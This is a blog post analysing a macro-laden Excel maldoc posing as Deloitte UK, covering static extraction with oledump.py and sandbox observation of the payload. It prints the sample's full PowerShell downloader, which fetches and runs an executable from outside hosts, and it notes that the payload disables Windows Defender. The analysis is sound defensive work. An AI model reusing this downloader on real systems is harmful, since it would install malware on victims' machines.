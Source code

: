 # Happy Little Maldocs

For my first post, I though I might share something that seems to be making the rounds lately (warning: this may be a little long-winded as I explain my analysis process for the first time). With social engineering being one of the most prevalent ways to spread malware, this sample takes full advantage. This particular campaign seems to disguise itself as Deloitte UK attempting to get the victim to open an Excel document. Here is the VirusTotal report for that document: ![VirusTotal Report](/assets/images/happy_maldocs/hlm_vt.jpg)

A few key points from that report are:
1. The document opens a shell and possibly runs other applications
2. Makes use of macros
3. Automatically runs commands when the file is opened

One of my favorite tools to use for examining malicious documents is [REMnux by Lenny Zeltser](https://remnux.org/). REMnux comes pre-loaded with a bunch of awesome tools, and one of the first ones I use to examine malicious documents is [oledump.py by Didier Stevens](https://blog.didierstevens.com/programs/oledump-py/). This tool will tell you a lot about the objects that make up a document and is especially useful for finding malicious components. So let's get started!

The first command we'll use is the following:

`oledump.py sample.xls`

![oledump.py results on Remnux](/assets/images/happy_maldocs/remnux_oledump.jpg)

 This tells us that OLE streams 7,8,9,10,18,20,21,22 have VB script in them, so let's extract that using this command, where STREAM_NUMBER represents one of the previously listed values:

`oledump.py -v -s STREAM_NUMBER sample.xls`

 With the VB extracted, we should now be able to find the malicious function. Admittedly, I am not as adept at Visual Basic as I could be, but I know enough to know that a shell call shouldn't be here!

![VisualBasic calling shell](/assets/images/happy_maldocs/vb_shell_call.jpg)

Even without knowing much VB, it is clear that this Excel file opens a shell of some sort, so let's run it in a VM to verify. Thanks to Microsoft, you can get free 90-day virtual images of every OS since Windows 7 (all in 32-bit)! I used a Windows 7 VM loaded with Office, Sysmon, and I threw ProcMon on there for good measure. Once loaded, the document indeed opens a shell, noted by ProcMon's capture:
![ProcMon capturing Excel creating a shell](/assets/images/happy_maldocs/procmon_excel_launch_powershell.jpg)

```powershell powershell "'powershell ""function better([string] $qqqqqqqq_qqqqqq74_qqq){(new-object system.net.webclient).downloadfile($qqqqqqqq_qqqqqq74_qqq,''C:\Users\IEUser\AppData\Local\Temp\work.exe'');start-process ''C:\Users\IEUser\AppData\Local\Temp\work.exe'';}try{better(''http://carasaan.com/conte.ntet'')}catch{better(''http://mustardcafeonline.com/conte.ntet'')}'"" | out-file -encoding ascii -filepath C:\Users\IEUser\AppData\Local\Temp\qeneral.bat; start-process 'C:\Users\IEUser\AppData\Local\Temp\qeneral.bat' -windowstyle hidden"```

So now we can see it attempts to download a file. Using REMnux again, we can setup a server that will deliver the file to the victim VM, allowing us to proceed further. To do this, we have configured REMnux to use a static IP address. Then, we use a handy script, `accept-all-ips start eth0` that configures REMnux to receive all incoming connections. To handle those connections, we use INetSim. I also configured INetSim to deliver the file mentioned in the previous Powershell command, so that when the victim VM sends an HTTP GET request for the file, it will be delivered as if the victim connected to the real domain. The following screenshots show the requests:

![Wireshark showing payload download](/assets/images/happy_maldocs/wireshark_get_payload_and_ip.jpg)

![INetSim results of payload download](/assets/images/happy_maldocs/inetsim_gets.jpg)

You can also see from the above screenshots that something starts attempting to find the victim's IP address. Note: I had configured REMnux to deliver the malware by default, hence the multiple downloads. With my current configuration, the IP address would not be delivered to the victim, so I opened it up to the internet to see what happens once it is able to retrieve the address.

![WireShark showing payload download and TLS outbound connection](/assets/images/happy_maldocs/wireshark_get_ip_to_tls.jpg)

It appears that the sample retrieves the IP address then sets up a TLS connection. Where does it connect to? Luckily Sysmon caught the connections. 

- 23.94.41.215:443
- 185.68.93.117:447

At the same time these connections are happening, the payload attempts to stop and delete the WinDefend service:

![ProcMon showing nasty process trying to stop Windows Defender](/assets/images/happy_maldocs/procmon_stop_windefend.jpg)

Without decrypting the SSL, we can see that there are some large downloads occurring. If you watch while those connections are happening, you also notice that some other files get downloaded to the computer. These consist of modules and configuration files.

![Windows File Explorer output showing modules in their download location](/assets/images/happy_maldocs/modules.jpg)
![Windows File Explorer output showing modules in their download location](/assets/images/happy_maldocs/modules_list.jpg")

There are four modules that get downloaded to the victim's computer:
- injectDll32
- networkDll32
- shareDll32
- systeminfo32

*injectDll32* and *networkDll32* also had configuration files downloaded. These files are under their respective modules' folder names. Each configuration file is named the following:
- dinj
- sinj
- dpost

Well, that's all I have time for this go around. Hopefully this post shows some useful tools that will make malware analysis much easier and gives insight into how this malware performs. In the future I will plan to go a little deeper in the analysis, but for my first post I really just want to get used to writing again. So thanks for taking the time to read!

 The SHA256 hash for this sample is: `71f675a68e937f2cb69e29a3c36726cc2f0940451e364e06e8aa460638d7c50c`

_This post was originally written on 16 Dec 2018. It was moved on 03 Feb 2022._
